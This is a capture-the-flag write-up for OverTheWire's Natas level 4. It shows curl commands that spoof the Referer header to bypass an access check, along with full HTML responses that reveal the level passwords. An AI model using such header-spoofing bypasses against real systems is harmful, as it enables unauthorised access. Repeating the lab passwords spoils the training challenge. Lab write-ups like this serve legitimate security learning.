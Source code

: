 ***Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

When I hit the "refresh page" link below this, the message changes to:

***Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

The refresh link on the page takes me to index.php on this subdomain, and is subsequently a clue: the web app is keeping track of what URL is being used to access the page. If we can spoof the URL that is being used to access the page, then we can trick it to think we're on the natas5 subdomain. 

This can be accomplished by modifying the Referer request header; we can either use a tool/extension, or we can use a curl call on a CLI. To test the normal response from a curl call:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

This gives us the HTML source of the page. Now let's modify our curl call to spoof the Referer request header:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm --referer "http://natas5.natas.labs.overthewire.org/" natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
